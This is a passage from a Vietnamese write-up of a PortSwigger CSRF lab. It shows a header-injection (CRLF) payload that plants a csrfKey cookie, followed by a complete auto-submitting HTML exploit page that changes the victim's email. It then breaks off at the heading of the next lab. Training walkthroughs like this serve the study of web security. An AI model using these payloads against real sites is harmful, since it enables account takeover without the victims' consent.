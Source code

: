 Đầu tiên ta sẽ lấy 2 tham số cần dùng để đổi email:

```
csrfKey=9jO1393d6TRWSKVyHHw3jXgiH75dH3nd
csrf=etpchFmmdrxdjWX9WmHkI42IPRaYjRSu
```

Dựa vào đó, ta sẽ search với payload sau để inject csrfKey cookie.

```
a%0d%0aSet-Cookie%3A%20csrfKey%3D9jO1393d6TRWSKVyHHw3jXgiH75dH3nd%3B%20SameSite%3DNone
```

chúng ta cần thêm `SameSite=None` vì site của exploit-server khác với trang web của bài lab.
mình encode url rồi cộng thêm phần cần search ở phía trước

![image](https://hackmd.io/_uploads/rkTKFm-dyl.png)

![image](https://hackmd.io/_uploads/rkAZy1H5p.png)

ta đã set cookie csrfKey thành công theo ý muốn (ở đây là csrfKey của user wiener ở trên)

Dựa vào phân tích trên, ta tạo được CSRF payload hoàn chỉnh như sau:

- Inject csrf cookie: Sử dụng tag `<img>`
- Form update email với csrf là giá trị csrf giống cookie csrf.

```htmlembedded
<html>
  <body>
      <img src="https://0a2100e60450bda081ba027c00dd001e.web-security-academy.net/?search=a%0d%0aSet-Cookie%3A%20csrfKey%3D9jO1393d6TRWSKVyHHw3jXgiH75dH3nd%3B%20SameSite%3DNone" onerror= 'document.forms[0].submit();'>
    <form action="https://0a2100e60450bda081ba027c00dd001e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd@a.a" />
        <input type="hidden" name="csrf" value="etpchFmmdrxdjWX9WmHkI42IPRaYjRSu" />
    </form>
  </body>
</html>
```

![image](https://hackmd.io/_uploads/SkBClySqT.png)

mục đích của chúng ta đã hoàn thành và mình cúng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HyBBbkH96.png)

## 6. Lab: CSRF where token is duplicated in cookie

link: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

### Đề bài
